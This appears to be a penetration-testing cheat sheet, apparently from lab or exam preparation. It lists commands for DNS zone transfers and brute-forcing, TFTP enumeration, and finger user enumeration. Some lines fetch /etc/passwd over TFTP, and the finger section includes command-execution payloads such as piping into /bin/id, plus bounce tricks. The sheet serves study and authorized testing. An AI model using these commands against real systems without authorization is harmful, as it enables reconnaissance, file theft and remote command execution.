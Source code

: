 ```
Find the DNS servers for the LAB Domain
1.	Host -I thinc.local *target*
2.	host -t ns megacorpone.com
3.	host -t mx megacorpone.com
4.	find / -name dns.txt
a.	/usr/share/dnsenum/dns.txt
5.	modified my ./forward.sh script
6.	host master.thinc ipaddress
7.	host slave.thinc ipaddress
8.	host -t axfr thinc.local *target*
9.	Use dnsrecon to attempt a zone transfer
10.	dnsrecon -d thinc.local -n *target* 0 -t afxr
11.	dnsrecon -d thinc.local -n *target* -a
```

### dnsdict6 will help enumerate ipv6 dns names

### fierce

Fierce -dns *target-domain* -threads 3

### nmap dns zone transfers

nmap --script=dns-zone-transfer -p 53 *target-domain*

#### nmap dns brute scan

nmap -p 80 --script dns-brute.nse *target-domain*

### Port 69 - UDP - TFTP

This is used for tftp-server.

TFTP port 69 open 
o	TFTP Enumeration 
o	tftp *target* PUT local_file 
o	tftp *target* GET conf.txt (or other files) 
o	Solarwinds TFTP server 
o	tftp - i *target* GET /etc/passwd (old Solaris) 
TFTP Bruteforcing 
o	TFTP bruteforcer 
o	Cisco-Torch 


### PORT 79 FINGER

Finger Port 79 open 

```
User enumeration 
o	finger 'a b c d e f g h' @example.com 
o	finger admin@example.com 
o	finger user@example.com 
o	finger 0@example.com 
o	finger .@example.com 
o	finger **@example.com 
o	finger test@example.com 
o	finger @example.com 
Command execution 
o	finger "|/bin/id@example.com" 
o	finger "|/bin/ls -a /@example.com" 
Finger Bounce 
o	finger user@host@victim 
o	finger @internal@external
```
